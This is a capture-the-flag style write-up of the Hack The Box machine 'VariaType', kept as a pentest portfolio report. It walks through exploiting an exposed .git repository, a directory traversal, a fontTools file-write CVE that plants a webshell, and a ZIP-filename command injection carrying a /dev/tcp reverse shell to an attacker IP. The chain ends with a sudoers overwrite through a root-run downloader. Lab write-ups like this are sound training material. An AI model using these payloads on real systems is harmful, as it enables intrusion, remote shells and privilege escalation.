# VariaType HTB Machine Report

> **Style:** Cyber Detective Investigation  
> **Machine:** VariaType  
> **Difficulty:** Medium  
> **OS:** Linux  
> **Author:** WackyH4cker  
> **Target:** `10.129.244.202`  
> **Objective:** User Flag + Root Flag  
> **Status:** Compromised  



---

## Executive Case File

VariaType is not a machine that falls to one loud exploit. It behaves more like a quiet print shop at midnight: clean typography on the front desk, dusty developer mistakes in the back room, and a font pipeline that turns untrusted files into a ladder. The compromise chain moved through exposed Git metadata, recovered credentials, an authenticated file disclosure, `fontTools` arbitrary file write, a FontForge processing job owned by `steve`, and finally a root-level validator installer that could be abused for arbitrary file write.

**Attack chain summary:**

```text
Recon
→ VHost discovery
→ portal.variatype.htb
→ exposed .git
→ Git archaeology
→ gitbot credentials
→ portal login
→ directory traversal / arbitrary file read
→ fontTools varLib arbitrary file write
→ RCE as www-data
→ discover Steve font pipeline
→ FontForge ZIP filename command injection
→ shell as steve
→ sudo NOPASSWD install_validator.py
→ PackageIndex absolute path write
→ sudoers overwrite
→ root
```

---

# The Brief

VariaType presents itself as a polished typography lab. The public application offers variable font generation using `.designspace` files and master fonts. That detail matters: file generators, parsers, and converters often create excellent attack surfaces because they process complex input formats.

The machine's story starts with a simple question: **what does the application process, who processes it, and where does the output go?**

That question connected every clue.

The visible website was only the lobby. The real case began after discovering the internal portal and proving that its `.git` directory was exposed.

---

# Scanning & Recon

## 1. Port Discovery

The first scan identified only two main doors: SSH and HTTP.

```bash
nmap -sC -sV -Pn -oN nmap_initial.txt 10.129.244.202
```



**Interpretation:**

```text
22/tcp  open  ssh
80/tcp  open  http
```

SSH was not the first target. In HTB-style machines, SSH usually becomes useful after credential discovery. The HTTP service, however, gave us a real application with real user-controlled input.

---

## 2. Host and Virtual Host Setup

The application used hostnames, so the first operational step was to map the target IP to local names.

```bash
echo "10.129.244.202 variatype.htb portal.variatype.htb" | sudo tee -a /etc/hosts
```



The public site exposed a font generation feature at:

```text
http://variatype.htb/tools/variable-font-generator
```

The hidden internal surface appeared through virtual host enumeration:

```bash
ffuf -u http://10.129.244.202/ \
  -H "Host: FUZZ.variatype.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

**Important discovery:**

```text
portal.variatype.htb
```

This was the first hinge in the case. The public site was a showroom; the portal was a staff-only corridor.

---

# The Crack

## 3. Proving `.git` Exposure

A `.git` leak should never be assumed. It must be proven with a Git-internal file. The cleanest proof is `.git/HEAD`.

```bash
curl -s http://portal.variatype.htb/.git/HEAD
```

Expected proof:

```text
ref: refs/heads/master
```



**Why this matters:**

`.git/HEAD` is not a normal web file. It is an internal Git control file. If it is readable, the repository metadata is publicly exposed, and the source code or historical commits may be recoverable.

---

## 4. Dumping the Repository

With `.git` confirmed, the repository was dumped.

```bash
git-dumper http://portal.variatype.htb/.git/ dump
cd dump
ls -la
cat auth.php
```



The checked-out `auth.php` looked almost empty:

```php
<?php
session_start();
$USERS = [];
```

That was not the end. It was the invitation to dig deeper.

---

## 5. Git Archaeology

Git does not forget easily. Even when developers remove secrets, old commits can remain inside object storage. The next move was to search unreachable objects.

```bash
git fsck --no-reflog --full --unreachable | grep commit
git show <UNREACHABLE_COMMIT_HASH>
```



The recovered commit revealed the removed credential:

```php
$USERS = [
    'gitbot' => 'G1tB0t_Acc3ss_2025!'
];
```

**Logic:**

```text
Current file is clean
→ Git history contains deleted version
→ Deleted version contains credential
→ Credential may still work on portal
```

---

## 6. Portal Authentication

The recovered `gitbot` credential was used to authenticate to the portal and save the session cookie.

```bash
curl -i -s -c cookies.txt \
  -X POST http://portal.variatype.htb \
  -d "username=gitbot&password=G1tB0t_Acc3ss_2025!"
```

Success indicators:

```text
HTTP/1.1 302 Found
Location: /dashboard.php
Set-Cookie: PHPSESSID=...
```

After authentication, the dashboard became accessible:

```bash
curl -s -b cookies.txt http://portal.variatype.htb/dashboard.php
```

---

## 7. Confirming Directory Traversal

The portal had a download endpoint:

```text
download.php?f=<filename>
```

A download endpoint that accepts a filename from the user is always suspicious. The question becomes: **does it safely restrict reads to the intended folder?**

The test payload attempted to escape the download directory and read `/etc/passwd`.

```bash
curl -s -b cookies.txt \
  "http://portal.variatype.htb/download.php?f=....//....//....//....//etc/passwd"
```



The output disclosed local users:

```text
root:x:0:0:root:/root:/bin/bash
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
```

**Finding:** authenticated arbitrary file read.

**Why it mattered:** it proved file handling was unsafe and identified `steve` as a valid local user. The bug was useful intelligence, but it did not directly give a shell. The real entry point came from the font generator.

---

## 8. The Font Generator and CVE-2025-66034

The public generator accepted:

```text
.designspace
.ttf
.otf
```



This pointed toward `fontTools.varLib`, because `.designspace` files are XML-based font designspace documents used to generate variable fonts.

The vulnerable idea was:

```text
malicious .designspace
→ inject PHP payload into generated output
→ force output filename to absolute webroot path
→ write shell.php into public files folder
→ trigger shell through browser
```

The exploit automated that process.

```bash
git clone https://github.com/4nuxd/CVE-2025-66034.git
cd CVE-2025-66034
pip install requests fonttools
```

```bash
python3 exploit.py \
  --ip 10.10.15.59 \
  --port 4444 \
  --upload http://variatype.htb/tools/variable-font-generator/process \
  --webroot /var/www/portal.variatype.htb/public/files \
  --shell http://portal.variatype.htb/files \
  --no-listen
```



The important lines were:

```text
Write path  : /var/www/portal.variatype.htb/public/files/<shell>.php
Trigger URL : http://portal.variatype.htb/files/<shell>.php
Server response: HTTP 200
```

The listener and trigger completed the foothold:

```bash
nc -lvnp 4444
curl "http://portal.variatype.htb/files/<shell>.php"
```



Result:

```text
whoami → www-data
```

At this point, the web layer was compromised. The investigation moved inside the house.

---

# Scaling the Walls

## 9. Local Enumeration as `www-data`

The first local questions were simple:

```bash
whoami
id
ls -la /var/www/portal.variatype.htb/public/files
cat /etc/passwd | grep bash
ls -la /opt
```



The key artifact was:

```text
/opt/process_client_submissions.bak
```

Reading it revealed a local font pipeline:

```bash
cat /opt/process_client_submissions.bak
```

Critical lines:

```bash
UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"
```

And the dangerous processing line:

```python
font = fontforge.open('$file')
```

**Interpretation:**

```text
www-data can influence files in /public/files
→ Steve's pipeline appears to process files from that folder
→ FontForge opens those files
→ If the process runs as Steve, malicious font/archive input may execute as Steve
```

But a backup file is not proof. The next job was to prove the process was alive.

---

## 10. Watching the Machine with `pspy`

`pspy` was uploaded to monitor processes without root.

Local attacker machine:

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
python3 -m http.server 8000
```

Target:

```bash
cd /tmp
wget http://10.10.15.59:8000/pspy64
chmod +x pspy64
./pspy64
```



The important observation:

```text
UID=1000 /home/steve/bin/process_client_submissions.sh
fontforge.open(...)
```

`UID=1000` was `steve`. That proved the pipeline was real and running as the target user.

**Logic:**

```text
www-data can place files
→ Steve automatically opens them
→ File parser bug can become code execution as Steve
```

---

## 11. Proving Command Execution as Steve

Before trying a reverse shell, a tiny proof was safer: write `id` output into `/tmp/owned`.

```bash
cd /var/www/portal.variatype.htb/public/files
rm -f testcmd.zip /tmp/owned
```

```bash
python3 - <<'PY'
import zipfile

payload = '$(id>/tmp/owned).sfd'

sfd_content = """SplineFontDB: 3.0
FontName: pwn
FullName: pwn
FamilyName: pwn
EndSplineFont
"""

with zipfile.ZipFile("testcmd.zip", "w") as z:
    z.writestr(payload, sfd_content)

print("[+] Created testcmd.zip")
print("[+] Internal filename:", payload)
PY
```

After Steve's scheduled job processed the ZIP:

```bash
cat /tmp/owned
```



Proof:

```text
uid=1000(steve) gid=1000(steve) groups=1000(steve)
```

This proved command execution as `steve`. The next payload used the same primitive to obtain a reverse shell.

---

## 12. Reverse Shell as Steve

Listener:

```bash
nc -lvnp 5555
```

Payload ZIP:

```bash
cd /var/www/portal.variatype.htb/public/files
rm -f rev.zip
```

```bash
python3 - <<'PY'
import base64
import zipfile

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.15.59/5555 0>&1"'
b64 = base64.b64encode(cmd.encode()).decode()

payload = f'$(echo {b64}|base64 -d|bash).sfd'

sfd_content = """SplineFontDB: 3.0
FontName: pwn
FullName: pwn
FamilyName: pwn
EndSplineFont
"""

with zipfile.ZipFile("rev.zip", "w") as z:
    z.writestr(payload, sfd_content)

print("[+] Created rev.zip")
print("[+] Payload:", payload)
PY
```



User flag was captured from:

```bash
cat /home/steve/user.txt
```

> **Portfolio note:** flag value intentionally redacted.

---

## 13. Sudo Enumeration

As `steve`, sudo permissions revealed the root path.

```bash
sudo -l
```



Critical output:

```text
(root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

This allowed `steve` to run a specific Python installer as root, with one argument.

---

## 14. Inspecting the Root-Run Installer

The script:

```bash
cat /opt/font-tools/install_validator.py
```



Key lines:

```python
PLUGIN_DIR = "/opt/font-tools/validators"
...
index = PackageIndex()
downloaded_path = index.download(plugin_url, PLUGIN_DIR)
```

**Weakness:** the script runs as root and downloads a URL into `PLUGIN_DIR` using `setuptools.package_index.PackageIndex`. By using an encoded absolute path in the URL path, the downloaded file could be written outside the intended plugin directory.

The first proof wrote to `/tmp/pwned`.

Local malicious HTTP server:

```bash
cat > serve_sudoers.py <<'PY'
from http.server import BaseHTTPRequestHandler, HTTPServer

CONTENT = b"steve ALL=(ALL) NOPASSWD:ALL\n"

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(CONTENT)))
        self.end_headers()
        self.wfile.write(CONTENT)

    def do_HEAD(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(CONTENT)))
        self.end_headers()

    def log_message(self, fmt, *args):
        print("[HTTP]", self.address_string(), fmt % args)

HTTPServer(("0.0.0.0", 8000), Handler).serve_forever()
PY

python3 serve_sudoers.py
```

Target proof of write:

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
  "http://10.10.15.59:8000/%2ftmp%2fpwned"

cat /tmp/pwned
```



The output proved root-level arbitrary file write:

```text
Plugin installed at: /tmp/pwned
steve ALL=(ALL) NOPASSWD:ALL
```

---

## 15. Writing to sudoers

The final move wrote a sudoers rule to `/etc/sudoers.d/steve`.

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
  "http://10.10.15.59:8000/%2fetc%2fsudoers.d%2fsteve"
```



Validation:

```bash
sudo -l
```

Result:

```text
(ALL) NOPASSWD: ALL
```

Root shell:

```bash
sudo /bin/bash
whoami
id
cat /root/root.txt
```



> **Portfolio note:** root flag value intentionally redacted.

---

# Evidence

## Core Commands

### VHost discovery

```bash
ffuf -u http://10.129.244.202/ \
  -H "Host: FUZZ.variatype.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### Git proof

```bash
curl -s http://portal.variatype.htb/.git/HEAD
```

### Git dump and archaeology

```bash
git-dumper http://portal.variatype.htb/.git/ dump
cd dump
git fsck --no-reflog --full --unreachable | grep commit
git show <commit>
```

### Portal login

```bash
curl -i -s -c cookies.txt \
  -X POST http://portal.variatype.htb \
  -d "username=gitbot&password=G1tB0t_Acc3ss_2025!"
```

### Directory traversal

```bash
curl -s -b cookies.txt \
  "http://portal.variatype.htb/download.php?f=....//....//....//....//etc/passwd"
```

### CVE-2025-66034 RCE

```bash
python3 exploit.py \
  --ip 10.10.15.59 \
  --port 4444 \
  --upload http://variatype.htb/tools/variable-font-generator/process \
  --webroot /var/www/portal.variatype.htb/public/files \
  --shell http://portal.variatype.htb/files \
  --no-listen
```

### Steve command execution proof

```bash
python3 - <<'PY'
import zipfile
payload = '$(id>/tmp/owned).sfd'
sfd_content = """SplineFontDB: 3.0
FontName: pwn
FullName: pwn
FamilyName: pwn
EndSplineFont
"""
with zipfile.ZipFile("testcmd.zip", "w") as z:
    z.writestr(payload, sfd_content)
PY
```

### Root arbitrary write proof

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
  "http://10.10.15.59:8000/%2ftmp%2fpwned"
```

### Root escalation

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
  "http://10.10.15.59:8000/%2fetc%2fsudoers.d%2fsteve"

sudo /bin/bash
```

---

# Screenshot Checklist

| # | Screenshot | Purpose |
|---|------------|---------|
| 1 | Nmap output | Confirms open ports |
| 2 | VHost result | Shows hidden portal discovery |
| 3 | `.git/HEAD` | Proves Git exposure |
| 4 | Git unreachable commit | Shows recovered credential |
| 5 | Portal login/dashboard | Confirms valid credential |
| 6 | `/etc/passwd` traversal | Proves arbitrary file read |
| 7 | Font generator page | Shows vulnerable upload surface |
| 8 | CVE exploit output | Shows webshell write path |
| 9 | `www-data` shell | Initial access proof |
| 10 | `/opt/process_client_submissions.bak` | Links `/files` to Steve pipeline |
| 11 | `pspy` UID=1000 process | Proves Steve cron processing |
| 12 | `/tmp/owned` | Proves command execution as Steve |
| 13 | `steve` shell + user.txt | User compromise proof |
| 14 | `sudo -l` | Shows root sudo path |
| 15 | `install_validator.py` | Shows vulnerable root-run downloader |
| 16 | `/tmp/pwned` write | Proves arbitrary write as root |
| 17 | sudoers write + root shell | Root compromise proof |

---

# Closing Case

VariaType taught one clean lesson: **a parser is never just a parser when it runs inside an automation pipeline.** The first vulnerability opened the door, but the full compromise came from connecting evidence across trust boundaries: web upload, Git history, local cron, file processing, and root-owned installers. A good pentester does not chase noise; they follow the data trail until the system explains itself.

